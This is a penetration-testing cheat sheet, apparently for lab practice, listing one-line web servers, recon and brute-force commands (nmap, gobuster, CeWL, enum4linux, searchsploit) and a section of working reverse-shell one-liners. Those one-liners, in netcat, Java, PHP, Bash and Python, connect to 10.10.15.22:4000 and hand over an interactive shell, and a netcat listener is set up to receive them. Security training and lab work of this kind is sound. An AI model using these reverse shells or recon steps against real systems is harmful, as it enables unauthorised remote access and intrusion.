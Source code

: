 # CheatSheet

## Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```
### Ruby
```ruby
ruby -run -e httpd . -p 8000
```
## [nmap](https://tools.kali.org/information-gathering/nmap)
```shell-script
nmap -sC -sV -oA nmap/openadmin 10.10.10.171
```
## [gobuster](https://tools.kali.org/web-applications/gobuster)
bruteforce websites to find directories
```bash
gobuster dir -u http:10.10.10.10/ -w /path/to/wordlist
```
##  [CeWL](https://tools.kali.org/password-attacks/cewl)
creates wordlist from website
```bash
cewl -d 2 -m 5 -w genwords.txt https://10.10.10.10
```
## [enum4linux](https://tools.kali.org/information-gathering/enum4linux)
enumerates Windows and Samba systems 

Ports to look for: 445, 139
```bash
enum4linux -U -o 10.10.10.10
```
## [goofile](https://tools.kali.org/information-gathering/goofile)
finding specific filetypes in domain
```bash
goofile -d kali.org -f pdf
```
## [searchsploit](https://www.exploit-db.com/searchsploit)
```bash
searchsploit tomcat
```
## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat
```bash
nc -e /bin/sh 10.10.15.22 4000
```
#### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.15.22/4000;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
#### PHP
```php
php -r '$sock=fsockopen("10.10.15.22",4000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell
#### Python 
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Usefuls Scripts
### HEX Converter
```bash
#!/bin/bash
echo $1 | tr -d “\n” | hexdump -e ‘16/1 “%02x “ “\n”
```

